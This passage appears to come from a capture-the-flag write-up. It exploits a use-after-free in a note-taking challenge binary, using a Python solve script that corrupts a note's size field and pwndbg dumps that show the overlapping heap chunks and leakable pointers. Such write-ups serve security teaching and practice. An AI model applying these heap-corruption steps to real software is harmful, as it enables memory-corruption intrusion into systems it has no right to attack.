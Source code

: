```python title="solve.py"
# prepare uaf
add_note(0, 0x20, b"\x00")
free_note(0)

# shift alloc by 1
add_note(2, 0x100, b"\x00")

# cycle through freed objects
for i in range(255):
    add_note(3, 0x20, p64(i))

# use uaf to edit size
payload = flat(
    0x100,
)
edit_note(3, payload)
```

After fuzzing, we find that on the 255th allocation, the `contents{:cpp}` of
`notes[3]{:cpp}` will lie on the `struct note{:cpp}` chunk of `notes[0]{:cpp}`.
We can then set the size to a really large value. We can see that this works in
gdb:

```
pwndbg> tel &notes
00:0000│  0x7f093d51f5e0 (notes) —▸ 0x7efc40010aa0 ◂— 0x100
01:0008│  0x7f093d51f5e8 (notes+8) ◂— 0
02:0010│  0x7f093d51f5f0 (notes+16) —▸ 0x7efc40010ae0 ◂— 0x100
03:0018│  0x7f093d51f5f8 (notes+24) —▸ 0x7efc40010ac0 ◂— 0x20 /* ' ' */
04:0020│  0x7f093d51f600 (notes+32) ◂— 0
... ↓     3 skipped
pwndbg> tel 0x7efc40010ac0
00:0000│  0x7efc40010ac0 ◂— 0x20 /* ' ' */
01:0008│  0x7efc40010ac8 —▸ 0x7f093d5168c3 (print_note(note*)) ◂— endbr64
02:0010│  0x7efc40010ad0 —▸ 0x7efc40010aa0 ◂— 0x100
03:0018│  0x7efc40010ad8 ◂— 0
04:0020│  0x7efc40010ae0 ◂— 0x100
05:0028│  0x7efc40010ae8 —▸ 0x7f093d5168c3 (print_note(note*)) ◂— endbr64
06:0030│  0x7efc40010af0 —▸ 0x7efc4005c200 —▸ 0x7efc4005c300 —▸ 0x7efc4005c400 —▸ 0x7efc4005c500 ◂— ...
07:0038│  0x7efc40010af8 ◂— 0
```

`notes[0]{:cpp}` was supposed to be of size 0x20, but has now been edited to
size 0x100 by editing `notes[3]{:cpp}`.

## Leaking the sandbox

Let's see what values we can leak using this:

```
pwndbg> x/32gx 0x7efc40010aa0
0x7efc40010aa0: 0x0000000000000100      0x00007f093d5168c3
0x7efc40010ab0: 0x00007efc40010ac0      0x0000000000000000
0x7efc40010ac0: 0x0000000000000020      0x00007f093d5168c3
0x7efc40010ad0: 0x00007efc40010aa0      0x0000000000000000
0x7efc40010ae0: 0x0000000000000100      0x00007f093d5168c3
0x7efc40010af0: 0x00007efc4005c200      0x0000000000000000
0x7efc40010b00: 0x0000000000000020      0x00007f093d5168c3
0x7efc40010b10: 0x00007efc40010b20      0x0000000000000000
0x7efc40010b20: 0x0000000000000000      0x0000000000000000
0x7efc40010b30: 0x0000000000000000      0x0000000000000000
0x7efc40010b40: 0x0000000000000020      0x00007f093d5168c3
0x7efc40010b50: 0x00007efc40010b60      0x0000000000000000
0x7efc40010b60: 0x0000000000000001      0x0000000000000000
```